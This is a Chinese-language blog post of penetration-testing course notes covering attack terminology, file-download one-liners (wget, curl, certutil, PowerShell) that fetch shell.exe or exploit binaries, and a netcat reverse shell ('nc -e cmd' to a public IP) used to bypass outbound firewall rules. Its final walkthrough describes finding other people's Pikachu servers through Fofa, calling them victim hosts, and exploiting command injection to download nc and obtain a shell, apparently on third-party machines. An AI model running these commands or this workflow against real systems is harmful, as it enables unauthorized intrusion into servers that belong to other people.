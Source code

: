 ```yaml
---
layout: post
title: DAY01
author: PWN022
tags:
- Network security
date: 2023-12-26 08:50 +0800
toc:  true
---
```


# Network security

# DAY01操作系统&文件下载&反弹shell&防火墙绕过

知识点：

1、名词解释-渗透测试-漏洞&攻击&后门&代码&专业词

2、必备技能-操作系统-用途&命令&权限&用户&防火墙

3、必备技能-文件下载-缘由&场景&使用-提权&后渗透

4、必备技能-反弹命令-缘由&场景&使用-提权&后渗透

前后端，POC/EXP，Payload/Shellcode，后门/Webshell，木马/病毒，反弹，回显，跳板，黑白盒测试，暴力破解，社会工程学，撞库，ATT&CK等

> 参考：
>
> https://www.cnblogs.com/sunny11/p/13583083.html
>
> https://forum.ywhack.com/bountytips.php?tools
>
> https://blog.csdn.net/weixin_43303273/article/details/83029138

> 名词解释
>
> POC:全称"Proof of Concept",中文'概念验证',常指一段漏洞证明的代码。
>
> EXP: 全称"Exploit",中文"利用,指利用系统漏洞进行攻击的动作。
>
> Payload：中文"有效载荷",指成功exploit之后，真正在目标系统执行的代码或指令。
>
> Shellcode: 简单翻译"shell代码"，是Payload的一种，由于其建立正向/反向shell而得名。

## 基础案例1:操作系统-用途&命令&权限&用户&防火墙

1.个人计算机&服务器用机：

一般个人计算机大部分为：windows11、windows10、windows7.

服务器用机：windows server 2008、2012、2016

Linux: unbutu、centos

2.windows&Linux常见命令

```
Windows：dir //查看当前目录 ipconfig //查看IP地址

Linux：pwd//查看当前目录 ifconfig//查看IP地址
```

3.文件权限&服务权限&用户权限

```
windows:

whoami//查看当前用户的权限

system(系统最高权限）>administrator
```

```
Linux:

id//查看当前用户权限

system(系统最高权限) >root
```

4.自带防火墙出站&入站规则策略协议

windows:

**Windows Defender(默认自带的防火墙)**

出站的检测很宽容 对入站很严格

Linux:

**iptables(默认自带的防火墙)**

## 实用案例1：文件上传下载-解决无图形化&解决数据传输

Linux：

```
wget http://xxx.com/shell.exe //去下载文件

curl http://xxx.com/shell.exe -o shell.exe //下载下来 加-o 是重命名为 不加 默认直接下载下来

Python -m -SimpleHTTPServer 8080 //开放8080端口为http服务器

python3 -m http.server 8080

```

Windows：

```
PowerShell: powershell.exe -Command "Invoke-WebRequest -Uri http://127.0.0.1:8080/ms10-051.exe -OutFile exploit.exe"

CMD: certutil.exe -urlcache -split -f http://127.0.0.1:8080/ms10-051.exe exploit.exe

IPC$: copy \127.0.0.1\c$\ms10-051.exe C:\exploit.exe
```

## 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

useradd 用户名 passwd 用户名

测试Linux系统添加用户或修改密码命令交互回显问题

结合案例1：防火墙绕过-正向连接&反向连接&内网服务器

正向：控制端主动连接被控端

反向：被控端发起连接到控制端

1、内网：**//netcat**

内网 -> hesy

hesy ！-> 内网

2、防火墙:

hesy <->aliyun //正常通讯

hesy防火墙 ->aliyun

aliyun !-> hesy防火墙

nc -e cmd 47.75.121.155 5577 //把当前的cmd权限移交到指定IP

nv -lvvp 5577 /去监听本地5577端口 反弹shell

只能内网的IP主机去反弹shell给外网有IP的服务器，外网IP没办法反弹shell给一台内网的主机.(这就需要流量转发）

正向连接:

攻击者作为客户端去连接目标主机服务器端口。相当于是攻击者主动去找服务器

反向连接:

目标主机作为客户端去主动访问攻击者的端口。相当于目标主机是客户端，攻击者是服务端。

## 综合案例2：Fofa拿下同行Pikachu服务器

文件&反弹shell:

主要利用点在于命令执行这个漏洞，通过命令执行，让目标去下载外网上我们的nc.exe 然后通过 nc -e cmd IP 8888 主动去连接我们的端口。获得目标主机的shell（对于出站的流量，防火墙一般都很宽松）

## day01实战:反弹shell

查找案例(受害主机)：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.01.13.png" alt="截屏2023-12-24 15.01.13" style="zoom:50%;" />

查询操作系统：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.02.13.png" alt="截屏2023-12-24 15.02.13" style="zoom: 67%;" />

相对系统的文件下载命令：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.03.13.png" alt="截屏2023-12-24 15.03.13" style="zoom:80%;" />

通过输入框输入命令：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.04.13.png" alt="截屏2023-12-24 15.04.13" style="zoom:67%;" />

反弹到端口：命令实际上是n.exe -e cmd xxx因为下载重命名时是n.exe

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.05.13.png" alt="截屏2023-12-24 15.05.13" style="zoom:67%;" />

启动外网的端口监听：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.06.13.png" alt="截屏2023-12-24 15.06.13" style="zoom:67%;" />

拿到服务器：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.07.13.png" alt="截屏2023-12-24 15.07.13" style="zoom: 67%;" />
